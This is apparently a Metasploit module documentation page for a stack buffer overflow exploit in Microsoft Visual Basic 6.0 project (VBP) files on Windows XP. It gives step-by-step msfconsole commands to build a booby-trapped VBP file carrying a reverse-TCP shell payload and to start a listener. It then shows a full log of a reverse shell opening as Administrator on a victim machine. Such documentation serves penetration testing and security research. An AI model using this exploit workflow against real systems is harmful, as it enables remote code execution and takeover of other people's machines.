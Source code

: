 ## Vulnerable Application

This module exploits a stack buffer overflow in Microsoft Visual Basic
6.0. A specially crafted Visual Basic Project (VBP) file containing
a long reference line can be used to execute arbitrary code.

This module has been tested successfully on:

* Windows XP Home SP0 (x86) (English)
* Windows XP Professional SP0 (x86) (English)
* Windows XP Professional SP1 (x86-64) (English)
* Windows XP Professional SP2 (x86-64) (English)
* Windows XP Professional SP3 (x86) (English)

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/fileformat/ms_visual_basic_vbp`
1. Do: `set filename [filename.vbp]`
1. Do: `set lhost [lhost]`
1. Do: `set lport [lport]`
1. Do: `set payload windows/shell/reverse_tcp`
1. Do: `run`
1. Do: `use exploit/multi/handler`
1. Do: `set lhost [lhost]`
1. Do: `set lport [lport]`
1. Do: `set payload windows/shell/reverse_tcp`
1. Do: `run -jz`
1. Open `/home/user/.msf4/local/msf.vbp` on a vulnerable system

## Options

### FILENAME

The project file name. (Default: `msf.vbp`).

## Scenarios

### Windows XP SP3 (x86) (English)

```
msf > use exploit/windows/fileformat/ms_visual_basic_vbp
[*] Using configured payload windows/shell/reverse_tcp
msf exploit(windows/fileformat/ms_visual_basic_vbp) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf exploit(windows/fileformat/ms_visual_basic_vbp) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Windows XP SP0-SP3 (x86) (English)
    1   Windows XP SP1-SP2 (x86-64) (English)


msf exploit(windows/fileformat/ms_visual_basic_vbp) > run
[*] Creating 'msf.vbp' file for Windows XP SP0-SP3 (x86) (English) ...
[+] msf.vbp stored at /home/user/.msf4/local/msf.vbp
msf exploit(windows/fileformat/ms_visual_basic_vbp) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(multi/handler) > run -jz
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.200.130:4444 
msf exploit(multi/handler) > mv /home/user/.msf4/local/msf.vbp /var/www/html/msf.vbp
[*] exec: mv /home/user/.msf4/local/msf.vbp /var/www/html/msf.vbp

msf exploit(multi/handler) > 
[*] Sending stage (240 bytes) to 192.168.200.173
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.173:1037) at 2025-06-21 08:03:44 -0400

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...


Shell Banner:
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>
```
